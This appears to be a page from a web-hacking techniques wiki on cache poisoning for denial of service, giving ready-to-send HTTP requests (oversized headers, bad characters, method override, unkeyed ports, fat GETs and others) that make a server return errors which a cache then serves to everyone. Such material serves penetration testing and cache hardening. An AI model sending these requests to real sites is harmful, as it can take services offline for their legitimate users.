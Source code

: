 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
In this page you can find different variations to try to make the **web server respond with errors** to requests that are **valid for the cache servers**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Send a request with a header size larger than the one supported by the web server but smaller than the one supported by the cache server. The web server will respond with a 400 response which might be cached:

```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```

* **HTTP Meta Character (HMC) & Unexpected values**

Send a header that contain some **harmfull meta characters** such as  and . In order the attack to work you must bypass the cache first.

```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```

A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:

```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```

* **Unkeyed header**

Some websites will return an error status code if they **see some specific headers i**n the request like with the _X-Amz-Website-Location-Redirect: someThing_ header:

```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```

* **HTTP Method Override Attack (HMO)**

If the server supports changing the HTTP method with headers such as `X-HTTP-Method-Override`, `X-HTTP-Method` or `X-Method-Override`. It's possible to request a valid page changing the method so the server doesn't supports it so a bad response gets cached:

```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```

* **Unkeyed Port**

If port in the Host header is reflected in the response and not included in the cache key, it's possible to redirect it to an unused port:

```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```

* **Long Redirect DoS**

Like in the following example, x is not being cached, so an attacker could abuse the redirect response behaviour to make the redirect send a URL so big that it returns an error. Then, people trying to access the URL without the uncached x key will get the error response:

```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```

* **Host header case normalization**

The host header should be case insensitive but some websites expect it to be lowercase returning an error if it's not:

```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```

* **Path normalization**

Some pages will return error codes sending data URLencode in the path, however, the cache server with URLdecode the path and store the response for the URLdecoded path:

```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```

* **Fat Get**

Some cache servers, like Cloudflare, or web servers, stops GET requests with a body, so this could be abused to cache a invalid response:

```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden 
Cache: hit
```

## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}


